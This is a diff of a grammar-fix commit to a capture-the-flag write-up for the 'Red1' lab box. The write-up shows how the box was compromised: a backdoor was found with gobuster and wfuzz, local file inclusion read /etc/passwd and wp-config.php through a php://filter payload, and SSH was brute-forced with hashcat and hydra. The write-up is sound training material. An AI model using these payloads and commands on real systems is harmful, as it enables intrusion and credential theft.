

Before and after one commit to 0xt1m/ctf, a Markdown page: Red1/report.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style.

Commit message:
Grammar corrections.md

````diff
--- a/Red1/report.md
+++ b/Red1/report.md
@@ -1,7 +1,7 @@
 # Red1
 **IP: 10.0.4.7**
 <br>
-First of all I did an `nmap` scan and found that there are two open ports:<br>
+First of all, I did an `nmap` scan and found that there were two open ports:<br>
 > 80 _apache_ <br>
 > 22 _ssh_
 
@@ -15,20 +15,20 @@ Allow: /wp-admin/admin-ajax.php
 Sitemap: http://redrocks.win/wp-sitemap.xml
 ```
 
-I went to the sitemap and found that there is user named:
+I went to the sitemap and found that there was a user named:
 administrator
 
-Checked it in the admin-login page and looks like it works.
+Checked it on the admin-login page and looks like it works.
 <br>
 Going to the site we know that there is a backdoor. The hacker said so.
 <br>
-Let's look for backdoors. We have a good wordlists with backdoor names in seclists.<br>
+Let's look for backdoors. We have a good wordlist with backdoor names in seclists.<br>
 `gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
 Looks like we found one:<br>
 ```
 /NetworkFileManagerPHP.php (Status: 500) [Size: 0]
 ```
-There is nothing if we go there. Therefore, we can try to put there different requests like:<br>
+There is nothing if we go there. Therefore, we can try to put different requests like:<br>
 `/NetworkFileManagerPHP.php?search=qwe`<br>
 We can use `wfuzz` to do it.<br>
 ```
@@ -37,7 +37,7 @@ wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/sh
 We will find that the word `key` works.<br>
 Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.
 
-We know that this is a wordpress site. Also, we know that in wordpress sites have wp-config.php file where is a lot of interesting information. If we try to access it we won't see it since our browser automaticly translates php code. However, we can find a php base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings
+We know that this is a WordPress site. Also, we know that WordPress sites have wp-config.php file where there is a lot of interesting information. If we try to access it we won't see it since our browser automatically translates php code. However, we can find a PHP base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings
 Here is an example:<br>
 ```
 http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
@@ -46,7 +46,7 @@ Modify it for ourselves:<br>
 ```
 http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
 ```
-And it will give us a base64 string which we can decode and get the original wp-config.php code.<br>
+It will give us a base64 string which we can decode and get the original wp-config.php code.<br>
 Here is an interesting piece of code:<br>
 ```
 ...
@@ -57,19 +57,19 @@ define( 'DB_USER', 'john' );
 define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
 ...
 ```
-We know that there is the open ssh port. If we try to use these credentials to ssh it does not work.<br>
-Also, we know that there is the backdoor file. Let's download it and look what it looks like.<br>
+We know that there is an open ssh port. If we try to use these credentials to ssh it does not work.<br>
+Also, we know that there is a backdoor file. Let's download it and see what it looks like.<br>
 `http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
-Got a piece of code with another base64 line which says:<br>
+Got a piece of code with another base64 line that says:<br>
 `That password alone won't help you! Hashcat says rules are rules`<br>
-And this is kind of hint.<br>
-We know that `hashcat` is a tool for password bruteforcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need get acquainted with password cracking rules._ Also, we can make an assumption that the rules is best64, since our hint was encoded in base64.<br>
-We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt` and generate a custom wordlist with `hashcat` and rule called `best64`.<br>
+And this is kind of a hint.<br>
+We know that `hashcat` is a tool for password brute-forcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need to get acquainted with password-cracking rules._ Also, we can make an assumption that the rule is best64 since our hint was encoded in base64.<br>
+We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt`, and generate a custom wordlist with `hashcat` and a rule called `best64`.<br>
 Our command will look like this:<br>
 ```
 hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
 ```
-Now, we have got our custom wordlist. Let's try to bruteforce into `ssh`.<br>
+Now, we have got our custom wordlist. Let's try to brute-force into `ssh`.<br>
 ```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
 > [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
 Looks like it worked.<br>
````
Also changed, not shown: other parts of Red1/report.md (+9 -9 lines).
